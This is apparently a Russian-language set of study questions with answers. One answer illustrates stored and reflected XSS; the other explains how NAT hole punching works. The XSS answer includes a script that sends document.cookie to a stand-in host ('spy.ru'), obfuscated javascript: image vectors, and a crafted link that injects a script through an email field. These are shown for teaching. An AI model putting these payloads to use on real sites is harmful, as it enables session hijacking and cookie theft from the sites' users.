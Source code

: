 79. Приведите пример xss-атаки. Опишите подробно, какие элементы сайта используются и каким образом
   ```spoiler-block
активный (срабатывает автоматически при загрузке страницы): 
публикация на форумах или в комментариях сообщений с javascript кодом


<script>
new Image().src = “<http://spy.ru/saveCoockie.cgi?c=“> +
encodeURI(document.cookie);
</script>

<IMG SRC=`javascript:…`>

<IMG SRC=&#106;&#97;&#118;&#97;&#115; …


пассивный (нужно, чтобы админ или другой пользователь перешли по заранее сфабрикованной ссылке)

<input class="inputText" type="text" name=
"email" value=“gudasergey@gmail.com" />

Хотим получить: <input class="inputText"
type="text" name= "email" value=“”>
<script> HACKER </script>

Делаем ссылку:
http://сайт.ru/login.php?email=”> <script>HACKER</script>
Лучше: <http://сайт.ru/login.php?email=> %22%3e%3c%73%63 …
```

80. Что такое, для чего нужно и как работает Hole punching NAT
   ```spoiler-block
Hole punching NAT (сокращение от Network Address Translation) - это техника, используемая в компьютерных сетях для установления прямого сетевого соединения между двумя узлами, находящимися за сетевыми устройствами с NAT, такими как маршрутизаторы или брандмауэры.
---
В сетях с NAT, часто используемых в домашних и офисных сетях, приватные IP-адреса внутренних узлов преобразуются в общедоступные (публичные) IP-адреса на границе локальной сети. Это позволяет нескольким узлам в сети использовать один общедоступный IP-адрес для доступа в Интернет. Однако NAT может создавать проблемы для установления прямых соединений между узлами внутри сети, поскольку он изменяет IP-адреса и порты в пакетах.
---
Hole punching NAT использует технику переадресации портов, чтобы обойти ограничения NAT и установить прямое сетевое соединение между узлами. Она включает следующие шаги:
---
1. Инициация подключения: Один из узлов, называемый инициатором, отправляет пакеты к удаленному узлу, называемому отвечающим. Это создает запись в таблице NAT на маршрутизаторе, отображающую локальный IP-адрес и порт инициатора на общедоступный IP-адрес и порт.
2. Переадресация порта: Инициатор узнает общедоступный IP-адрес и порт, присвоенный NAT для его соединения, и отправляет его отвечающему узлу через сторонний канал связи, такой как сервер-посредник. Этот IP-адрес и порт будут использоваться отвечающим для обратного подключения.
3. Инициирование обратного подключения: Отвечающий узел пытается установить соединение с инициатором, используя общедоступный IP-адрес и порт, полученные от инициатора. NAT, обнаружив эту попытку, перенаправляет входящие пакеты отвечающего на локальный IP-адрес и порт инициатора, который был запомнен ранее.
4. Установление прямого соединения: Когда NAT перенаправляет входящие пакеты отвечающего на инициатора, происходит успешное установление прямого сетевого соединения между ними. Дальнейшая коммуникация между узлами может осуществляться напрямую, обходя NAT.
---
Hole punching NAT является эффективным способом установления прямых сетевых соединений в условиях сетей с NAT. Он широко используется в пиринговых (peer-to-peer) приложениях, таких как голосовые и видео-конференции, обмен файлами и игры, где необходима прямая связь между участниками.
   ```
